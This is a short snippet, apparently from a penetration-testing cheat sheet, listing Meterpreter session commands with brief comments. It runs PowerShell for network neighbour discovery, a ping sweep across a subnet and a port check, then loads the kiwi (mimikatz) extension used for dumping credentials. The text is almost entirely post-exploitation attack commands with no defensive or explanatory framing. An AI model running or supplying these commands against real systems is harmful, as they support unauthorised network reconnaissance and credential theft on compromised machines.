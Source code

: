```c
meterpreter > powershell_execute 'Get-NetNeighbor | Where-Object -Property State -NE "Unreachable" | Select-Object -Property IPAddress'                                // network discovery
meterpreter > powershell_execute '1..254 | foreach { "<XXX.XXX.XXX>.${_}: $(Test-Connection -TimeoutSeconds 1 -Count 1 -ComputerName <XXX.XXX.XXX>.${_} -Quiet)" }'    // network scan
meterpreter > powershell_execute 'Test-NetConnection -ComputerName <RHOST> -Port 80 | Select-Object -Property RemotePort, TcpTestSucceeded'                            // port scan
meterpreter > load kiwi                          // load mimikatz
meterpreter > help kiwi                          // mimikatz help
